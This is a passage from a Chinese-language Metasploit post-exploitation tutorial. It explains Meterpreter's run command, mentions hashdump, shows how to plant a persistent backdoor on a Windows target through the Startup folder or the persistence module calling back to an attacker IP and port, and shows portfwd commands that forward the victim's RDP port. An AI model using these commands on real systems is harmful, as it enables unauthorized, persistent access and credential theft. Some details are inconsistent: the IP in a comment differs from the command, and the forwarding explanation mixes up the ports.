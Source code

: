 ##### run 命令
~~~bash
run   #执行一个已有的模块
~~~
`run+双击Tab键` 会列出所有的已有的脚本；
常用的有 `autoroute` , `hashdump` , `arp_scanner` , `multi_meter_inject` 等

#### 生成持续性后门
> 因为 `Meterpreter` 是基于 `内存DLL` 建立的连接
> 所以，只要目标主机关机，我们的连接就会断
> 总不可能我们每次想连接的时候，每次都去攻击
> 然后再利用 `Meterpreter` 建立连接
> 所以，我们得在目标主机系统内留下一个`持续性的后门`
> 只要目标主机`开机`了，我们就可以连接到该主机

建立持续性后门有两种方法
- 通过启动项启动 `persistence`
- 通过服务启动 `metsvc`

##### 启动项启动
先使用 `Msfvenonm` 生成一个后门木马
然后放到 `windows的启动目录` 中
> C:\Users\$username$\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
这样这个后门每次开机就都能启动了
然后我们只要相连就监听相应的端口就行了

##### 服务启动
~~~bash
run exploit/windows/local/persistence lhost=192.168.100.132 lport=8888 #自动连接192.168.100.158的8888端口，缺点是容易被杀毒软件查杀
~~~
然后它就在目标机新建了这个文件
C:\Windows\TEMP\****.vbs 
并把该服务加入了注册表中
只要开机就会启动

#### PortFwd 端口转发
`portfwd` 是 `Meterpreter` 提供的一种基本的`端口转发`
`porfwd` 可以 `反弹单个端口` 到 `本地`, 并且 `监听`
使用方法如下
~~~bash
portfwd add -l 9999 -r 192.168.100.158 -p 3389   
#将192.168.100.158的3389端口转发到本地的9999端口上，这里的192.168.100.158是获取权限的主机的ip地址
-l:   #本地监听的端口，用于接收目标主机的端口反弹
-p:   #目标服务器的端口；
add:  #添加一个连接
~~~
然后我们只要访问`本地`的 `3389` 端口就可以连接到`目标主机`的 `3389 `端口了
~~~bash
rdesktop 127.0.0.1:9999
~~~

如果不想继续连接的话
可以删除当前建立的连接
执行以下命令
~~~bash
portfwd delet -l 9999 -r 192.168.100.158 -p 3389   
delet   #删除一个连接
~~~
